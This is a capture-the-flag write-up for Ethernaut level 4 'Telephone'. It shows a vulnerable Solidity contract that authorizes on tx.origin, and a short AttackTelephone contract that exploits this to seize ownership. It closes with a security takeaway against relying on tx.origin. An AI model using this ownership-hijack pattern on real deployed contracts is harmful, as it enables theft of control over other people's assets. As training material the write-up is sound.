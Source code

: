 ```yaml
---
description: tx.origin and msg.sender
---
```


# 4 - Telephone

Ethernaut Level4: [Telephone](https://ethernaut.openzeppelin.com/level/0x131c3249e115491E83De375171767Af07906eA36)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

### Goal of this level

* claim ownership of the contract

### What you should know before

* Difference between `tx.origin` and `msg.sender`\
  ``-> see [here](https://www.youtube.com/watch?v=mk4wDlVB4ro)

## Solution

<details>

<summary>Key to solve this problem 🔑</summary>

`tx.origin` is the very first initiator's address of the transaction while\
`msg.sender` is the caller address that directly called the contract.

</details>

```solidity
contract AttackTelephone {
    Telephone telephone;

    constructor(Telephone _instanceAddr) {
        telephone = _instanceAddr;
    }

    function attack() external {
        telephone.changeOwner(tx.origin);
    }
}
```

In this problem, `tx.origin` will be your wallet address and `msg.sender` will be the address of `AttackTelephone` contract.

You just need to call `attack()` function.

Done! 😎

## Key Takeaways

* In most cases, it is not recommended to use `tx.origin` in terms of **security**.
